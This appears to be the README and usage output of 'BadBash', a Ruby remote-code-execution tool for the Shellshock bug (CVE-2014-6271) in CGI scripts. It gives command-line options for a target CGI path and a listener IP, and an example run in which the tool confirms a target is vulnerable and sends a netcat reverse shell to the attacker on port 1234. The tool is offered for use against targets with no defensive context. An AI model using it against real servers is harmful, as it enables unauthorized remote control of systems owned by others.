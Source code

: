 ================================================================================================

BadBash is a CVE-2014-6271 RCE tool. The basic version only checks for the HTTP CGI site and only provides netcat reverse shell on port 1234.


Developer : Andy Yang
Version : 0.1.0
License : GPLv3

================================================================================================

RainMak3r@Could:~/Desktop# ruby BadBash.rb  -h
   ___           _   ___          _     
  / __\ __ _  __| | / __ __ _ ___| |__  
 /__\/// _` |/ _` |/__\/// _` / __| '_ \ 
/ \/  \ (_| | (_| / \/  \ (_| \__ \ | | |      Basic Version - 0.1 by Andy Yang
\_____/\__,_|\__,_\_____/\__,_|___/_| |_|      contactayang[AT]gmail[DOT]com
                                 
BadBash - CVE-2014-6271 RCE tool by Andy Yang
Basic version only checks for HTTP site
Basic version only provides netcat reverse shell on port 1234

EXAMPLE USAGE:
     ./BBash.rb  -t 'www.target.com/cgi-folder/cgi.sh' -d '127.0.0.1'
     ./BBash.rb  -t '10.0.0.1/cgi-folder/cgi.sh' -d '127.0.0.1'
    -t, --Target CGI path            Full path of CGI page
    -d, --Destination IP             Your IP address that listen to an inbound connection
    -h, --help                       Display help

================================================================================================
Example of usage.
================================================================================================
RainMak3r@Could:~/Desktop#ruby BadBash.rb -t '172.16.235.140/cgi-bin/Andy.sh' -d '172.16.189.1'

[Info]     Checking if the target is vulnerable........
[Info]     This may take up to 10 seconds........
[Info]     Target is vulnerable!!!
[Info]     Please use NC to listen on port 1234 for reverse shell..........
[Info]     Exploiting for a reverse shell to connect 172.16.189.1:1234 via netcat ..........


